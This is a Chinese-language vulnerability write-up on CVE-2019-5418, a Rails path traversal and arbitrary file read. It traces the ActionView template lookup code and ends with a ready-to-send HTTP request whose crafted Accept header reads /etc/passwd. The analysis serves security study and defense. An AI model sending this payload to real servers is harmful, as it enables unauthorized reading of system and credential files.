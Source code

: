 （CVE-2019-5418）Ruby on Rails 路径穿越与任意文件读取漏洞
=========================================================

一、漏洞简介
------------

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

二、漏洞影响
------------

Ruby on Rails \< 6.0.0.beta3Ruby on Rails \< 5.2.2.1Ruby on Rails \< 5.1.6.2Ruby on Rails \< 5.0.7.2

三、复现过程
------------

### 漏洞分析

在控制器中通过`render file`形式来渲染应用之外的视图，因此在
actionview-5.2.1/lib/action\_view/renderer/template\_renderer.rb:22
中会根据 `options.key?(:file)`，调用`find_file`来寻找视图。

    module ActionView
      class TemplateRenderer < AbstractRenderer #:nodoc:
        # Determine the template to be rendered using the given options.
          def determine_template(options)
            keys = options.has_key?(:locals) ? options[:locals].keys : []
            if options.key?(:body)
              ...
            elsif options.key?(:file)
              with_fallbacks { find_file(options[:file], nil, false, keys, @details) }
            ...
          end
    end

`find_file`代码如下：

    def find_file(name, prefixes = [], partial = false, keys = [], options = {})
        @view_paths.find_file(*args_for_lookup(name, prefixes, partial, keys, options))
    end

继续跟入`args_for_lookup`函数，用于生成用于查找文件的参数，当其最终返回时会把payload保存在`details[formats]`中：![1.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId25.jpg)

此后回到`@view_paths.find_file`并跟入会进入
actionview-5.2.1/lib/action\_view/path\_set.rb：

    class PathSet #:nodoc:
        def find_file(path, prefixes = [], *args)
          _find_all(path, prefixes, args, true).first || raise(MissingTemplate.new(self, path, prefixes, *args))
        end
        private
        # 注，这里的 args 即前面args_for_lookup生成的details
            def _find_all(path, prefixes, args, outside_app)
                prefixes = [prefixes] if String === prefixes
                prefixes.each do |prefix|
                paths.each do |resolver|
                    if outside_app
                    templates = resolver.find_all_anywhere(path, prefix, *args)
                    else
                    templates = resolver.find_all(path, prefix, *args)
                    end
                    return templates unless templates.empty?
                end
                end
                []
            end

由于要渲染的视图在应用之外，因此跟入`find_all_anywhere`

    def find_all_anywhere(name, prefix, partial = false, details = {}, key = nil, locals = [])
        cached(key, [name, prefix, partial], details, locals) do
        find_templates(name, prefix, partial, details, true)
        end
    end

跳过`cached`部分，跟入`find_templates`，这里正式根据条件来查找要渲染的模板：

    # An abstract class that implements a Resolver with path semantics.
    class PathResolver < Resolver #:nodoc:
        EXTENSIONS = { locale: ".", formats: ".", variants: "+", handlers: "." }
        DEFAULT_PATTERN = ":prefix/:action{.:locale,}{.:formats,}{+:variants,}{.:handlers,}"

        ...

        private
            def find_templates(name, prefix, partial, details, outside_app_allowed = false)
                path = Path.build(name, prefix, partial)
                # 注意 details 与 details[:formats] 的传入
                query(path, details, details[:formats], outside_app_allowed)
            end

            def query(path, details, formats, outside_app_allowed)
                query = build_query(path, details)
                template_paths = find_template_paths(query)
                ...
                end
            end

build\_query后如下：![2.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId26.jpg)

利用`../`与前缀组合造成路径穿越，利用最后的`{{`完成闭合，经过File.expand\_path解析后组成的query如下:

    /etc/passwd{{},}{+{},}{.{raw,erb,html,builder,ruby,coffee,jbuilder},}

最后`/etc/passwd`被当成模板文件进行渲染，最后造成了任意文件读取。

### 漏洞复线

访问http://www.0-sec.org:3000/robots可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

    GET /robots HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: ../../../../../../../../etc/passwd{{
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId28.png)
